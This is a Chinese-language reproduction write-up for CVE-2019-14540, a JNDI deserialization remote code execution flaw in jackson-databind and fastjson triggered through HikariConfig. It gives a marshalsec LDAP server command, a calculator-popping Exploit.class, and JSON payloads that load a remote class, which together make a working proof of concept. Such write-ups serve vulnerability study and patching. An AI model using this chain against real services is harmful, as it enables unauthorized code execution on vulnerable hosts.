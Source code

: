 （CVE-2019-14540）FasterXML jackson-databind 远程命令执行漏洞
=============================================================

一、漏洞简介
------------

FasterXML
Jackson是美国FasterXML公司的一款适用于Java的数据处理工具。jackson-databind是其中的一个具有数据绑定功能的组件。
FasterXML jackson-databind
2.9.10之前版本中存在输入验证错误漏洞。攻击者可利用该漏洞执行代码。

二、漏洞影响
------------

jackson-databind \<=2.7.9.6,2.8.11.4,2.9.9.3

fastjson \<= 1.2.59

三、复现过程
------------

### 分析过程

我喜欢用 gradle 来管理项目，先依赖一个最新版的回来

    compile 'com.zaxxer:HikariCP:2.4.0'

观察 HikariConfig.java 的setter 和 getter
方法，稍微有点常识的人都能看出， setMetricRegistry 和
setHealthCheckRegistry
里有明显的lookup方法，下一步就是按照标准的剧本去利用一遍了，经典的jndi漏洞利用，老司机应该分分钟就搞定，但我从来没写过利用，就从头学习一下。

### 利用过程（常见的jndi利用）

首先，我利用的是 ldap 协议，需要在低版本（小于
java8u191）下利用，详细原理我不是很清楚，大致原理就是从远程加载一个
class文件，调用它的构造函数，在构造函数里可以执行任意代码。

然后，借用 https://github.com/ianxtianxt/marshalsec 提供的转发功能，创建
ldap server，作用是转发到另一个 http server 上，使用非常方便。

    java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 1389

    Listening on 0.0.0.0:1389

然后编译一个 Exploit.class 出来，找个地方放好

    public class Exploit {
        public Exploit() {
            try {
                if (System.getProperty("os.name").toLowerCase().startsWith("win")) {
                    Runtime.getRuntime().exec("calc.exe");
                } else if (System.getProperty("os.name").toLowerCase().startsWith("mac")) {
                    Runtime.getRuntime().exec("open /Applications/Calculator.app");
                } else {
                    System.out.println("No calc for you!");
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

然后在 Exploit.class 目录，开一个 http 服务

    python -m SimpleHTTPServer

之后使用 jackson 进行反序列化

    ObjectMapper mapper = new ObjectMapper();
    mapper.enableDefaultTyping();
    mapper.readValue("[\"com.zaxxer.hikari.HikariConfig\", {\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}]".getBytes(), Object.class);

或者使用 fastjson 进行反序列化

    ParserConfig.global.setAutoTypeSupport(true);
    JSON.parse("{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}");

即可触发弹计算器

![](resource/(CVE-2019-14540)FasterXMLjackson-databind远程命令执行漏洞/media/rId26.png)

### 文中代码的github地址:

https://github.com/ianxtianxt/cve-2019-14540-exploit

参考链接
--------

> https://www.leadroyal.cn/?p=939
>
> https://www.restran.net/2018/10/29/fastjson-rce-notes/
>
> https://paper.seebug.org/942/

